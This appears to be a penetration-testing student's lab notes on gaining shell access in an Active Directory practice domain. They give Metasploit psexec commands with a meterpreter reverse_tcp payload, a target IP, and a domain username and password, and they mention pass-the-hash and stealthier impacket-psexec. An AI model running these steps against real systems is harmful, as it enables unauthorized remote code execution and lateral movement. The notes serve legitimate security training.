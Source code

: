 
## Gaining Shell Access

#impacket-psexec
#psexec 
#metasploit/psexec
1. Metasploit psexec
2. Instead of utilizing password or account, we can utilize hash instead
3. metasploit is noisy , we can use psexec.py instead(similar to metasploit and cant be seen) -> `impacket-psexec`

## Lab Time
- Start `msfexploit`
- `search psexec`
- `use 4` - exploit/windows/smb/psexec
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set RHOSTS 192.168.64.220`
- `set smbdomain MARVEL.local`
- `set smbuser fcastle`
- `set smbpass P@$$w0rd1`
- Show targets if automatic not working you can choose other
- Execute run


> Use 4 
```
msf6 > search psexec

Matching Modules
================

   #   Name                                         Disclosure Date  Rank       Check  Description
   -   ----                                         ---------------  ----       -----  -----------

   4   exploit/windows/smb/psexec                   1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution


Interact with a module by name or index. For example info 10, use 10 or use exploit/windows/local/wmi

msf6 > use 4
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp                                                       
msf6 exploit(windows/smb/psexec) >                                       
```


======

> You see here that the payload is not x64, you need to setup the payload to x64

```
msf6 exploit(windows/smb/psexec) > options                                                                                     
Module options (exploit/windows/smb/psexec):                          

   Name                  Current Setting  Required  Description                                                                
   ----                  ---------------  --------  -----------                                                                
   RHOSTS                                 yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit  
                                                    /basics/using-metasploit.html                                              
```